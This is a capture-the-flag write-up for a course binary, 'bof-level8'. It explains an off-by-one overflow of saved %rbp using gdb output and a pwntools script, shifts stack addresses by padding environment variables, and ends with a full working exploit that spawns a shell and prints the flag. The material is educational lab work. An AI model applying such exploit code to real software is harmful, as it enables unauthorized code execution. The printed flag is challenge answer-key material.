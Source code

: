 # Analysis
Once again, we are only able to overwrite %rbp. However, this time we are only able to overwrite a 
single byte. The general approach will be the same as level5, but we need to add just a little bit more
in order to make the attack work. 

First we can look at `receive_input()` in gdb to find the buffer. 
```gdb
   0x0000000000401211 <+0>:     endbr64
   0x0000000000401215 <+4>:     push   %rbp
   0x0000000000401216 <+5>:     mov    %rsp,%rbp
   0x0000000000401219 <+8>:     add    $0xffffffffffffff80,%rsp
   0x000000000040121d <+12>:    mov    0x2e3c(%rip),%rax        # 0x404060 <stdin@GLIBC_2.2.5>
   0x0000000000401224 <+19>:    mov    %rax,%rdx
   0x0000000000401227 <+22>:    mov    $0x100,%esi
   0x000000000040122c <+27>:    lea    0x2e4d(%rip),%rax        # 0x404080 <buffer>
   0x0000000000401233 <+34>:    mov    %rax,%rdi
   0x0000000000401236 <+37>:    call   0x401090 <fgets@plt>
   0x000000000040123b <+42>:    movl   $0x0,0x2f3b(%rip)        # 0x404180 <i>
   0x0000000000401245 <+52>:    jmp    0x401276 <receive_input+101>
   0x0000000000401247 <+54>:    mov    0x2f33(%rip),%eax        # 0x404180 <i>
   0x000000000040124d <+60>:    mov    0x2f2d(%rip),%ecx        # 0x404180 <i>
   0x0000000000401253 <+66>:    cltq
   0x0000000000401255 <+68>:    lea    0x2e24(%rip),%rdx        # 0x404080 <buffer>
   0x000000000040125c <+75>:    movzbl (%rax,%rdx,1),%edx
   0x0000000000401260 <+79>:    movslq %ecx,%rax
   0x0000000000401263 <+82>:    mov    %dl,-0x80(%rbp,%rax,1)
   0x0000000000401267 <+86>:    mov    0x2f13(%rip),%eax        # 0x404180 <i>
   0x000000000040126d <+92>:    add    $0x1,%eax
   0x0000000000401270 <+95>:    mov    %eax,0x2f0a(%rip)        # 0x404180 <i>
   0x0000000000401276 <+101>:   mov    0x2f04(%rip),%eax        # 0x404180 <i>
   0x000000000040127c <+107>:   cmp    $0x80,%eax
   0x0000000000401281 <+112>:   jle    0x401247 <receive_input+54>
   0x0000000000401283 <+114>:   nop
   0x0000000000401284 <+115>:   nop
   0x0000000000401285 <+116>:   leave
   0x0000000000401286 <+117>:   ret
```

At `receive_input+82`, we can see that the buffer we want to overflow is rbp-0x80. 
Now, we can start our script and open it up in gdb. 

```py
from pwn import *

p = process('./bof-levelx')
e = ELF('./bof-level8')

gas_addr = e.symbols['get_a_shell']

context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(p, 'b *receive_input+116') 

s = cyclic(0x80)

string = s + b'A'

p.sendline(string)
p.interactive()
```
```gdb
*RBP  0x7fffffffd220 —▸ 0x7fffffffd241 ◂— 0xf200007fffffffd2
*RSP  0x7fffffffd1a0 ◂— 0x6161616261616161 ('aaaabaaa') 
```
In gdb, we see that there's a problem. While we can see the 0x41 at the end of %rbp, we could never make %rbp point 
to somewhere in the buffer because we only have control of the least significant byte of the address, and the second
least significant byte (0xd2) is too high.

In order to get around this, we can adjust what addresses the stack sits at by adding arbitrary environmental
variables to take up space. 

```py
env = {'a' : 'b'}
p = process('./bof-levelx', env=env)
```

Then we can run it again. 

```gdb
*RBP  0x7fffffffece0 —▸ 0x7fffffffed41 ◂— 0x8200000000000000
*RSP  0x7fffffffec60 ◂— 0x6161616261616161 ('aaaabaaa')
```

The addresses have moved, but we have the same problem. So let's do it again. 

```py
env = {'a' : 'b', 'b' : 'c'}
```
```gdb
*RBP  0x7fffffffecd0 —▸ 0x7fffffffec41 ◂— 0x3b0000000000403e /* '>@' */
*RSP  0x7fffffffec50 ◂— 0x6161616261616161 ('aaaabaaa')
```

Now we have it in the correct spot and can adjust the last byte of %rbp 
so that it lands somewhere in the buffer. The easiest point to do this is at
the beginning (0x50)

```py
i = s.find(b'aaaabaaa')

string = s[:i+8] + p64(gas_addr) + s[i+16:] + p64(0x50)
```

At this point, the exploit works and we can run it without the debugger on the
real program. 

# Full Script + Solve
```py
#!/usr/bin/python3

from pwn import *

env = {'a' : 'b', 'b' : 'c'}

p = process('./bof-level8', env=env)
e = ELF('./bof-level8')

gas_addr = e.symbols['get_a_shell']

s = cyclic(0x80)
i = s.find(b'aaaabaaa')

string = s[:i+8] + p64(gas_addr) + s[i+16:] + p64(0x50)

p.sendline(string)
p.interactive()
```
```
$ ./p.py
[+] Starting local process './bof-level8': pid 1142843
[*] '/home/sawyeras/week2/bof-level8/bof-level8'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
Now, the developer of this program is trained a bit more, however,
still the vulnerability exists in th program: 1-byte overflow in the buffer,
which is an off-by-one vulnerability!
Can you exploit this program?
Spawning a privileged shell

$ cat flag
cand{nEv3r_eV3r_LeT_yOuR_bUfF3r_0v3rFlovv}
```
